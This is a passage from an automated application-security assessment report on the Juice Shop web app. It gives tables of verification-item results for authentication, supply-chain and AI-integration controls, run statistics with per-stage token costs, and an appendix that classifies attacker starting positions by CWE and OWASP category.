<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-ai-01"></a><a href="#tc-ai-01">TC-AI-01</a> Untrusted content cannot steer the model into privileged actions</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 1 of 2 locations</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-065">F-065</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-ai-03"></a><a href="#tc-ai-03">TC-AI-03</a> Model-selected tools, objects, and destinations are authorized and restricted</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 1 of 2 locations</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-065">F-065</a></span></td></tr>
</tbody>
</table>

<details><summary>9 more results without Critical or High findings</summary>
<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="34%" style="width:34%"><col width="20%" style="width:20%"><col width="17%" style="width:17%"><col width="29%" style="width:29%"></colgroup>
<thead><tr><th>Verification item</th><th>Where</th><th>Result</th><th>Findings</th></tr></thead>
<tbody>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-supply-01"></a><a href="#tc-supply-01">TC-SUPPLY-01</a> Build inputs are pinned and locked</td><td style="overflow-wrap:break-word;background:none">Repository</td><td style="overflow-wrap:break-word;background:none">Fails 4 of 4 rules</td><td style="overflow-wrap:break-word;background:none">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-090">F-090</a></span>, <span style="white-space:nowrap"><a href="#f-092">F-092</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-authn-02"></a><a href="#tc-authn-02">TC-AUTHN-02</a> Tokens are verified with a pinned algorithm and a server-held key</td><td style="overflow-wrap:break-word;background:none">Authentication &amp; Session Surface</td><td style="overflow-wrap:break-word;background:none">Fails at 3 of 5 locations<br/>Protection found at 1 location (model review only)<br/><em>model review only</em></td><td style="overflow-wrap:break-word;background:none">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-078">F-078</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-infra-01"></a><a href="#tc-infra-01">TC-INFRA-01</a> Containers and pods run with least privilege</td><td style="overflow-wrap:break-word;background:none">Repository</td><td style="overflow-wrap:break-word;background:none">Fails 1 of 6 rules</td><td style="overflow-wrap:break-word;background:none">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-120">F-120</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-supply-03"></a><a href="#tc-supply-03">TC-SUPPLY-03</a> Install and build scripts cannot run untrusted code</td><td style="overflow-wrap:break-word;background:none">Repository</td><td style="overflow-wrap:break-word;background:none">Fails 2 of 2 rules</td><td style="overflow-wrap:break-word;background:none">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-089">F-089</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-supply-04"></a><a href="#tc-supply-04">TC-SUPPLY-04</a> Released artifacts are signed and described by an SBOM</td><td style="overflow-wrap:break-word;background:none">Repository</td><td style="overflow-wrap:break-word;background:none">Fails 1 of 2 rules</td><td style="overflow-wrap:break-word;background:none">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-088">F-088</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-ci-01"></a><a href="#tc-ci-01">TC-CI-01</a> Workflows run with least-privilege tokens</td><td style="overflow-wrap:break-word;background:none">Repository</td><td style="overflow-wrap:break-word;background:none">Fails 1 of 2 rules</td><td style="overflow-wrap:break-word;background:none">🟡&nbsp;<span style="white-space:nowrap"><a href="#f-122">F-122</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-authn-03"></a><a href="#tc-authn-03">TC-AUTHN-03</a> Token expiry, issuer, and audience are validated</td><td style="overflow-wrap:break-word;background:none">Authentication &amp; Session Surface</td><td style="overflow-wrap:break-word;background:none">Fails at 1 of 5 locations<br/>Protection found at 3 locations (model review only)</td><td style="overflow-wrap:break-word;background:none">🟢&nbsp;1 not reported</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-ai-04"></a><a href="#tc-ai-04">TC-AI-04</a> Retrieval and memory respect the caller's access</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Holds at 1 of 2 locations<br/><em>model review only</em></td><td style="overflow-wrap:break-word;background:none">–</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-ai-05"></a><a href="#tc-ai-05">TC-AI-05</a> The model cannot be made to act or disclose beyond what the caller may</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 1 of 1 location</td><td style="overflow-wrap:break-word;background:none">🟢&nbsp;1 not reported</td></tr>
</tbody>
</table>
</details>

*Model review only: neither a fixed check nor the evidence review confirmed the whole result. 🟢 not reported: findings below the report threshold, see [§11](#11-out-of-scope).*

### Not decided

These items have no result for the named component. They are neither findings nor controls.

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="40%" style="width:40%"><col width="28%" style="width:28%"><col width="32%" style="width:32%"></colgroup>
<thead><tr><th>Verification item</th><th>Where</th><th>Why it stayed open</th></tr></thead>
<tbody>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a href="#tc-authn-04">TC-AUTHN-04</a> Passwords are strong and stored with an adaptive hash</td><td style="overflow-wrap:break-word;background:none">Angular Frontend</td><td style="overflow-wrap:break-word;background:none">Model found no location to check</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a href="#tc-authn-05">TC-AUTHN-05</a> Recovery, re-authentication, and login responses resist takeover and enumeration</td><td style="overflow-wrap:break-word;background:none">Sequelize application data access<br/>Angular Frontend</td><td style="overflow-wrap:break-word;background:none">Model found no location to check</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-authz-05"></a><a href="#tc-authz-05">TC-AUTHZ-05</a> Authorization the client interface implies is enforced on the server</td><td style="overflow-wrap:break-word;background:none">Angular Frontend</td><td style="overflow-wrap:break-word;background:none">No location found, model not run</td></tr>
<tr><td rowspan="2" style="overflow-wrap:break-word;background:none"><a href="#tc-input-01">TC-INPUT-01</a> Database queries are parameterized</td><td style="overflow-wrap:break-word;background:none">Sequelize application data access<br/>MarsDB Embedded Store<br/>Real-time WebSocket Channel<br/>SQLite Embedded Store</td><td style="overflow-wrap:break-word;background:none">No location found, model not run</td></tr>
<tr><td style="overflow-wrap:break-word;background:none">Angular Frontend</td><td style="overflow-wrap:break-word;background:none">Model found no location to check</td></tr>
<tr><td rowspan="2" style="overflow-wrap:break-word;background:none"><a href="#tc-input-02">TC-INPUT-02</a> NoSQL predicates are not built from input</td><td style="overflow-wrap:break-word;background:none">Sequelize application data access<br/>MarsDB Embedded Store<br/>Real-time WebSocket Channel<br/>SQLite Embedded Store</td><td style="overflow-wrap:break-word;background:none">No location found, model not run</td></tr>
<tr><td style="overflow-wrap:break-word;background:none">Angular Frontend<br/>Authentication &amp; Session Surface</td><td style="overflow-wrap:break-word;background:none">Model found no location to check</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a href="#tc-input-05">TC-INPUT-05</a> Outbound requests cannot be steered to unintended destinations</td><td style="overflow-wrap:break-word;background:none">Angular Frontend</td><td style="overflow-wrap:break-word;background:none">Model found no location to check</td></tr>
</tbody>
</table>

### Controls evidenced

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="58%" style="width:58%"><col width="20%" style="width:20%"><col width="22%" style="width:22%"></colgroup>
<thead><tr><th>Verification item</th><th>Where</th><th>Result</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><a href="#tc-authz-03">TC-AUTHZ-03</a> Request bodies cannot set privileged fields</td><td style="overflow-wrap:break-word">Authentication &amp; Session Surface</td><td style="overflow-wrap:break-word">Holds at 5 of 5 locations<br/><em>model review only</em></td></tr>
</tbody>
</table>

### Other items

Other outcomes by component, plus items this run did not examine. No finding does not prove a control.

- **AuthNRoutes** — Not examined: <a id="tc-authn-01"></a>TC-AUTHN-01 Sensitive routes, operations, and channels require authentication
- **AuthN** — No finding, no control: TC-AUTHN-02 (Juice Shop Express Server, Angular Frontend), TC-AUTHN-03 (Juice Shop Express Server, Angular Frontend); Not applicable: TC-AUTHN-02 (Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store), TC-AUTHN-03 (Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store), TC-AUTHN-04 (CI/CD Pipeline, Web3 / Wallet / NFT Surface, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store), TC-AUTHN-05 (CI/CD Pipeline, Web3 / Wallet / NFT Surface, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store), TC-AUTHN-06 (Juice Shop Express Server, Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store, Authentication &amp; Session Surface), TC-AUTHN-07 (Juice Shop Express Server, Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store, Authentication &amp; Session Surface)
- **SessionMgmt** — Not examined: <a id="tc-session-01"></a>TC-SESSION-01 Session tokens are protected in storage, transport, lifetime, and logout
- **AuthZ** — Not applicable: TC-AUTHZ-01 (Sequelize application data access, CI/CD Pipeline, Angular Frontend, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store), TC-AUTHZ-02 (Sequelize application data access, CI/CD Pipeline, Angular Frontend, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store), TC-AUTHZ-03 (Sequelize application data access, CI/CD Pipeline, Angular Frontend, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store), TC-AUTHZ-05 (Juice Shop Express Server, Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store, Authentication &amp; Session Surface), TC-AUTHZ-06 (Sequelize application data access, CI/CD Pipeline, Angular Frontend, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store); No finding, no control: TC-AUTHZ-02 (Web3 / Wallet / NFT Surface), TC-AUTHZ-03 (Web3 / Wallet / NFT Surface), TC-AUTHZ-06 (Web3 / Wallet / NFT Surface, Authentication &amp; Session Surface); Not applicable for all components: <a id="tc-authz-04"></a>TC-AUTHZ-04 Tenant data stays isolated
- **InputVal** — Not applicable: TC-INPUT-01 (CI/CD Pipeline, Web3 / Wallet / NFT Surface), TC-INPUT-02 (CI/CD Pipeline, Web3 / Wallet / NFT Surface), TC-INPUT-03 (Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, Angular Frontend, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store, Authentication &amp; Session Surface), TC-INPUT-04 (Juice Shop Express Server, Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store, Authentication &amp; Session Surface), TC-INPUT-05 (Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store, Authentication &amp; Session Surface), TC-INPUT-06 (Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, Angular Frontend, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store, Authentication &amp; Session Surface), TC-FILE-01 (Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store), TC-FILE-02 (Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, Angular Frontend, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store, Authentication &amp; Session Surface), TC-INPUT-07 (Sequelize application data access, CI/CD Pipeline, Angular Frontend, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store); No finding, no control: TC-FILE-01 (Angular Frontend, Authentication &amp; Session Surface), <a id="tc-input-07"></a>TC-INPUT-07 Input cannot take control of what the server executes, stores, or reaches (Juice Shop Express Server, Web3 / Wallet / NFT Surface, Authentication &amp; Session Surface)
- **DataProt** — Not examined: <a id="tc-data-01"></a>TC-DATA-01 Responses contain only intended fields, <a id="tc-data-02"></a>TC-DATA-02 Sensitive data is protected at rest, <a id="tc-data-03"></a>TC-DATA-03 Secrets are not embedded in code, client bundles, or deployment files, <a id="tc-data-04"></a>TC-DATA-04 Data in transit is encrypted and kept out of URLs, <a id="tc-data-05"></a>TC-DATA-05 Sensitive data cannot reach anyone not entitled to it
- **Crypto** — Not examined: <a id="tc-crypto-01"></a>TC-CRYPTO-01 Cryptographic primitives are current and not hand-rolled, <a id="tc-crypto-02"></a>TC-CRYPTO-02 Secrets and tokens use cryptographic randomness and are not derived from public data
- **FrontendSec** — Not examined: <a id="tc-front-01"></a>TC-FRONT-01 Browser protections are configured: CSP, framing, CORS, subresource integrity, message origins, <a id="tc-mobile-01"></a>TC-MOBILE-01 Mobile WebViews and inter-process interfaces do not expose privileged functions
- **Audit** — Not examined: <a id="tc-audit-01"></a>TC-AUDIT-01 Security-relevant actions are logged, and logs and errors do not leak data
- **Availability** — Not examined: <a id="tc-avail-01"></a>TC-AVAIL-01 Expensive and authentication endpoints are rate-limited and input-driven work is bounded
- **BusinessLogic** — Not examined: <a id="tc-logic-01"></a>TC-LOGIC-01 Business values and workflow order are decided on the server
- **AI** — Not applicable: TC-AI-01 (Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, Angular Frontend, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store, Authentication &amp; Session Surface), TC-AI-02 (Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, Angular Frontend, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store, Authentication &amp; Session Surface), TC-AI-03 (Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, Angular Frontend, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store, Authentication &amp; Session Surface), TC-AI-04 (Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, Angular Frontend, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store, Authentication &amp; Session Surface), TC-AI-05 (Sequelize application data access, CI/CD Pipeline, Web3 / Wallet / NFT Surface, Angular Frontend, MarsDB Embedded Store, Real-time WebSocket Channel, SQLite Embedded Store, Authentication &amp; Session Surface); No finding, no control: <a id="tc-ai-02"></a>TC-AI-02 Model output is validated before it reaches interpreters, browsers, or structured sinks (Juice Shop Express Server)
- **Infra** — No finding, no control: <a id="tc-infra-02"></a>TC-INFRA-02 Data and admin services are not publicly exposed; Not examined: <a id="tc-infra-03"></a>TC-INFRA-03 Service identities and cloud permissions follow least privilege
- **SupplyChain** — Not applicable: <a id="tc-supply-02"></a>TC-SUPPLY-02 Dependencies are updated automatically; Not examined: <a id="tc-ci-02"></a>TC-CI-02 Untrusted event data and forks cannot execute in privileged workflows
- **DevTooling** — No finding, no control: <a id="tc-devagent-01"></a>TC-DEVAGENT-01 Coding agents run sandboxed and with approvals; Not applicable: <a id="tc-devagent-02"></a>TC-DEVAGENT-02 Agent tools, MCP servers, hooks, and permission rules are not auto-trusted or over-broad

---

## Appendix: Run Statistics

| Field | Value |
|----------|----------------------|
| Command | `appsec-analyzer assess --hard-budget 20 --assessment-depth standard --trust-mode untrusted` |
| Code | `33518f5a0` with local changes on `master` |
| Duration | 49m 39s |
| Model time | 89m 36s across parallel calls |

### Per-Stage Breakdown

| Stage | Calls | Tokens | Cost (≈ USD) | Model time |
|----------------|--------:|--------:|------------:|----------:|
| Reconnaissance | 2 | 106k | 0.17 | 0m 29s |
| Architecture | 3 | 215k | 0.39 | 1m 37s |
| Trust Boundaries | 5 | 430k | 0.97 | 6m 20s |
| Controls | 10 | 188k | 0.46 | 3m 29s |
| Survey | 31 | 2.8M | 5.07 | 29m 11s |
| Verify | 25 | 1.9M | 4.25 | 23m 30s |
| Evidence review | 31 | 1.1M | 2.24 | 15m 21s |
| Scan Synthesis | 7 | 207k | 0.46 | 2m 19s |
| Finalization | 27 | – | – | 7m 16s |
| **Total** | **141** | **–** | **–** | **89m 36s** |

### Tokens by model

| Model | Calls | Uncached | Cache write | Cache read | Output | Cost (≈ USD) |
|-----------------|--------:|--------:|-----------:|----------:|--------:|------------:|
| claude-sonnet-5-5 | 140 | 233k | 3.7M | 3.2M | 548k | 15.46 |
| **Total** | **140** | **233k** | **3.7M** | **3.2M** | **548k** | **15.46** |

*Costs are estimates at API list prices. A subscription bills differently.*

### Contribution of analysis steps

Source anchors count locations, not independent weaknesses. Different anchors can describe the same problem. Semantic novelty and missing measurements are shown as unknown. Review confirmations do not establish an executed attack.

| Step | Additional locations | Repeated locations | New distinct problems | Stronger evidence | Contradictions | Recorded cost (USD) |
|---------------|--------------------:|------------------:|---------------------:|-----------------:|--------------:|-------------------:|
| Survey | 91 | unknown | unknown | unknown | unknown | 1.15 |
| Verification | 28 | 33 | unknown | unknown | unknown | 4.25 |
| Evidence review | unknown | unknown | 0 | 141 | 39 | 2.24 |
| Abuse cases | 1 | unknown | 0 | 0 | 0 | 0.94 |

Verification is compared with the original survey, including locations preserved inside consolidated findings. Abuse cases are compared with the findings immediately before their checks. Evidence review counts its recorded decisions. Costs include charged failed attempts when the run can attribute them; subscription use or unavailable accounting is unknown.

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Attack Vector Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2025, A05:2025, A07:2025

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2

**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2025, A06:2025, A02:2025

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

**Typical OWASP Top 10:** A01:2025

<a id="vektor-victim-required"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2025, A05:2025

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2025

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A04:2025, A07:2025

<a id="vektor-n-a"></a>
### Architectural (no runtime entry point)

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)
